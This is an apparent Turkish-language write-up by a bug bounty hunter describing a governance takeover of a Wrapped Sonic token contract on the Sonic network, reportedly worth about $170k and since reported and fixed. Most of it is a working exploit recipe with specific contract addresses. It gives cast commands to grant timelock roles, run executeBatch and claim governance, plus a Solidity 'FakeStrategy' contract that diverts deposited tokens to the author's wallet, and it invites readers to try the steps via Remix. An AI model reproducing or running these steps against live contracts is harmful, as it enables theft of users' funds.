 ```yaml
---
title: "150.000 $"
description: ":s
"
---
```


Ufak uyarı: Göstermiş olduğum örnek origin altyapısını kullanmakta, açığı bildirdim ve kapattılar ancak siz genede o kapıyı çok zorlamayın :)))

Öncelikle hedefimiz bu

![Ekrangörüntüsü2025 08 17013651 Pn](/images/Ekrangörüntüsü2025-08-17013651.png)

170k dolar değerinde wrapped coin bulunuyor, sonic altyapısını kullanan bu tokeni bende ilk defa zafiyet ararken buldum :D

Buranın içinde kod analizine girdiğimde bir açık yok ancak yönetici aktiviteleri için yönlendirme yaptığı adres çok sıkıntılı, kendi içinde tüm aktivitelerin yöneticisi olarak Governor rolü belirlenmiş ama governor rolüne atanan bir kimse yok yani isteyen ilk kişi kendisini yönetici yapabiliyordu

![Image(1) Avi](/images/image\(1\).avif)

- Bu kontratın Governor’ı `0x31a91336414d3b955e494e7d485a6b06b55fc8fb` adresindeki **TimelockController** kontratıydı.
- Orada `AccessControl` ile yönetilen `EXECUTOR` ve `PROPOSER` rolleri vardı, biz de role sahip olarak yönetimi ele geçirip kendimize Governor rolünü verdik.

## **ZURNANIN KOPTUĞU YER**

elimizdeki bilgiler aşşağıdaki gibi

- **WS token (Wrapped Sonic)**: `0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186`
- **TimelockController (Governor)**: `0x31a91336414d3b955e494e7d485a6b06b55fc8fb`
- **Senin cüzdanın** (örnek): `0x12dC3655fAC6388ACFe6753C0214Ecec34B87217`

#### **1- Rol Hashleri**

- cast keccak "PROPOSER_ROLE" # =\> PROPOSER_ROLE hash
- cast keccak "EXECUTOR_ROLE" # =\> EXECUTOR_ROLE hash
- cast keccak "TIMELOCK_ADMIN_ROLE" # =\> TIMELOCK_ADMIN_ROLE hash

#### **2- Mevcut konfigürasyonu okumak**

Gerekenler: **minDelay**, **kimde hangi rol var**, **executor açık mı** (0x000…000 herkesi ifade eder).

Copy

```
# min delay
cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "getMinDelay()(uint256)"

# roller (örnek, hash’i yukarıdan roleHash ile değiştir)
cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "hasRole(bytes32,address)(bool)" \
  <PROPOSER_ROLE_HASH> 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217

cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "hasRole(bytes32,address)(bool)" \
  <EXECUTOR_ROLE_HASH> 0x0000000000000000000000000000000000000000
```

Eğer `EXECUTOR` **0x000…000** ise: “herkes execute edebilir” anlamına gelir (kritik yanlış konfig).

`minDelay == 0` ise işler çok kolay (anında schedule→execute).

## **3- BATCH HAZIRLAMA**

Hedef batch (aynı anda çağrılacak fonksiyonlar):

1. **Timelock.grantRole(PROPOSER_ROLE, biz)** → ileriye dönük planlama serbestisi
2. **Timelock.grantRole(EXECUTOR_ROLE, 0x000…000 veya biz)** → herkes/biz execute edebilelim
3. **VaultCore.transferGovernance(attacker)** _veya_ VaultCore tarafındaki “governor set” türevi fonksiyon (sende VaultCore’un ABI’sine göre değişebilir)

Bazı VaultCore’larda iki adım vardır: `transferGovernance(newGov)` → sonra `claimGovernance()` (biz çağırırız).

#### **3.1 calldataları çıkar**

Copy

```
cast calldata "grantRole(bytes32,address)" <PROPOSER_ROLE_HASH> 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217

# grantRole(EXECUTOR_ROLE, 0x000...000)  (ya da kendi adresin)
cast calldata "grantRole(bytes32,address)" <EXECUTOR_ROLE_HASH> 0x0000000000000000000000000000000000000000

cast calldata "transferGovernance(address)" 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217
```

**3.2 batch parametrelerini kur**

Copy

```
TARGETS='["0x31a91336414d3b955e494e7d485a6b06b55fc8fb","0x31a91336414d3b955e494e7d485a6b06b55fc8fb","0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186"]'

VALUES='[0,0,0]'
#yukarıda ürettiğin 3 calldata stringini sırayla koy
DATAS='["0x<calldata1>","0x<calldata2>","0x<calldata3>"]'
PREDECESSOR=0x0000000000000000000000000000000000000000000000000000000000000000
SALT=0x1111111111111111111111111111111111111111111111111111111111111111
DELAY=0   # (getMinDelay 0 değilse, o değeri kullan; 0 ise direkt yürür)
```

## **5- executeBatch**

herkese açıksa herkes çağırabilir

mindelay 0 geçtiyse direkt:

Copy

```
cast send 0x31a91336414d3b955e494e7d485a6b06b55fc8fb \
 "executeBatch(address[],uint256[],bytes[],bytes32,bytes32)" \
 "$TARGETS" "$VALUES" "$DATAS" $PREDECESSOR $SALT
```

Bu batch şunları yapar:

- Sana **PROPOSER** verir,
- **EXECUTOR**’ı genişletir (isteğe göre herkese),
- **VaultCore.transferGovernance(attacker)** çağrılır.

## **6- Claim Vakti**

Copy

```
cast send 0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186 "claimGovernance()"
```

Tüm bu adımlardan sonra Governance rolünü ele geçirmiş oldum yani 170k dolar değerindeki tokeni istediğim heryere sürebiliyordum. İçimde ki Allah korkusu ve iyi niyet bastı, gidip bu açığı raporladım. ücreti mukabilinde bir ödeme aldım sağolsunlar.

## **E BEN QOD YAZMAK İSTEMÜYOREM**

üşengeç göt, al sana kısa yol

https://remix.ethereum.org/ kendi metamask hesabınla giriş yap, 3 4 dolar birşey attım içine denemek için, burdada aynı adresi yokladığımda bu adrese hiçbir allahın kulu konmamıştı, yani gene gene gene istediğim adrese istediğim şekilde tokeni yollayabiliyodum.

<img
  src="/images/image(2).png"
  alt="Image(2) Pn"
  title="Image(2) Pn"
  style={{ width:"23%" }}
/>

aşşağıda vericeğim kodları tek tek contract kısmına girerekte claim yapabilirsin. ama metamask hesabına sonic alt yapısını kurman ve içerisinde min 3 dolar tutman lazım yoksa ağ çalışmaz, çalışınca böyle bir ekran alırsın sağ altta

![Image(3 Avi](/images/image\(3.avif)

Okuduğun için teşekkürler, arap çorbası oldu ama teknik bilen adam anlar abi, hayırlı günler dilerim. aşşağıya kodları bıraktım uğraşmak istemeyenler baksın, öptüm.

VAULTCORE.SOL

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VaultCore {
    address public governor;

    function initialize(address _priceProvider, address _oToken) external {
        require(governor == address(0), "Already initialized");
        governor = msg.sender;
    }
}
```

FAKESTRATEGY.SOL (PARA NASIL ÇEKİLİR ONUN KODU, MERAKLISINA GİDER..=)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

contract FakeStrategy {
    address public target = 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217; // Benim adresim, para atacaklar şimdiden teşekkürler.

    function deposit(address asset, uint256 amount) external {
        IERC20(asset).transfer(target, amount); // buraya para çekiliyor
    }

    function supportsAsset(address) external pure returns (bool) {
        return true;
    }

    function checkBalance(address) external pure returns (uint256) {
        return 0;
    }

    function withdraw(address, address, uint256) external {}
}
```